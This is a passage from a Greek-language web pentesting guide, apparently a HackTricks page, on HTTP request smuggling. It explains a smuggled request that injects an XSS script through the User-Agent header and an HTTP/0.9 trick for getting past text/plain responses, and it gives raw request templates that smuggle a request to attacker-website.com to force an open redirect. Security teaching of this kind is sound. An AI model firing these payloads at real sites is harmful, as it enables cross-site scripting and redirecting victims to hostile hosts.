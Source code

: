 ```

A=
```
Αυτό το payload είναι δομημένο για να εκμεταλλευτεί την ευπάθεια με:

1. Να ξεκινήσει ένα `POST` αίτημα, φαινομενικά τυπικό, με ένα `Transfer-Encoding: chunked` header για να υποδείξει την αρχή της λαθραίας μεταφοράς.
2. Να ακολουθήσει με ένα `0`, που σηματοδοτεί το τέλος του σώματος του chunked μηνύματος.
3. Στη συνέχεια, εισάγεται ένα λαθραίο `GET` αίτημα, όπου το `User-Agent` header είναι εγχυμένο με ένα script, `<script>alert(1)</script>`, ενεργοποιώντας το XSS όταν ο διακομιστής επεξεργάζεται αυτό το επόμενο αίτημα.

Με την παραποίηση του `User-Agent` μέσω της λαθραίας μεταφοράς, το payload παρακάμπτει τους κανονικούς περιορισμούς αιτημάτων, εκμεταλλευόμενο έτσι την ευπάθεια Reflected XSS με έναν μη τυπικό αλλά αποτελεσματικό τρόπο.

#### HTTP/0.9

{% hint style="danger" %}
Σε περίπτωση που το περιεχόμενο του χρήστη αντανακλάται σε μια απάντηση με **`Content-type`** όπως **`text/plain`**, αποτρέποντας την εκτέλεση του XSS. Αν ο διακομιστής υποστηρίζει **HTTP/0.9 μπορεί να είναι δυνατό να παρακαμφθεί αυτό**!
{% endhint %}

Η έκδοση HTTP/0.9 ήταν προηγούμενη της 1.0 και χρησιμοποιεί μόνο **GET** ρήματα και **δεν** απαντά με **headers**, μόνο το σώμα.

Σε [**αυτή την αναφορά**](https://mizu.re/post/twisty-python), αυτό εκμεταλλεύτηκε με μια λαθραία μεταφορά αιτήματος και ένα **ευάλωτο endpoint που θα απαντήσει με την είσοδο του χρήστη** για να λαθραία μεταφέρει ένα αίτημα με HTTP/0.9. Η παράμετρος που θα αντανακλαστεί στην απάντηση περιείχε μια **ψεύτικη απάντηση HTTP/1.1 (με headers και σώμα)** έτσι ώστε η απάντηση να περιέχει έγκυρο εκτελέσιμο JS κώδικα με `Content-Type` `text/html`.

### Εκμετάλλευση Εντός Σελίδας Ανακατευθύνσεων με HTTP Request Smuggling <a href="#exploiting-on-site-redirects-with-http-request-smuggling" id="exploiting-on-site-redirects-with-http-request-smuggling"></a>

Οι εφαρμογές συχνά ανακατευθύνουν από μια διεύθυνση URL σε άλλη χρησιμοποιώντας το όνομα κεντρικού υπολογιστή από το `Host` header στην ανακατευθυνόμενη διεύθυνση URL. Αυτό είναι κοινό με διακομιστές ιστού όπως ο Apache και ο IIS. Για παράδειγμα, η αίτηση ενός φακέλου χωρίς τελικό slash έχει ως αποτέλεσμα μια ανακατεύθυνση για να συμπεριληφθεί το slash:
```
GET /home HTTP/1.1
Host: normal-website.com
```
Αποτελέσματα σε:
```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
Αν και φαίνεται αβλαβές, αυτή η συμπεριφορά μπορεί να χειραγωγηθεί χρησιμοποιώντας HTTP request smuggling για να ανακατευθύνει τους χρήστες σε έναν εξωτερικό ιστότοπο. Για παράδειγμα:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```